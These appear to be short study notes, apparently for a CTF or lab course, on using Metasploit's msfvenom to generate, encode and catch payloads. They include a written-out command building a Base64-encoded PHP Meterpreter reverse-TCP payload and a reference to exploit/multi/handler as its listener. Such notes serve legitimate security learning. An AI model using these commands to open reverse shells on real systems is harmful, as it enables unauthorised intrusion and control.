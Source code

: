 ## msfconsole: To generate the payloads
- MsfVenom - a Metasploit standalone payload generator.
- Msfvenom, which replaced Msfpayload and Msfencode, allows you to generate payloads.
- Msfvenom will allow you to access all payloads available in the Metasploit framework. 
- Msfvenom allows you to create payloads in many different formats (PHP, exe, dll, elf, etc.) and for many different target systems (Apple, Windows, Android, Linux, etc.).
- **msfvenom --list** formats command can be used to list supported output formats.

## Encoder: (can be done by msfvenom)
- eg: msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.x.x -f raw -e php/base64
- with the -e parameter. The PHP version of Meterpreter was encoded in Base64

## Handlers: (Listener)
- Similar to exploits using a reverse shell, you will need to be able to accept incoming connections generated by the MSFvenom payload.
- use **exploit/multi/handler**
- 

## msfvenom task:
- 
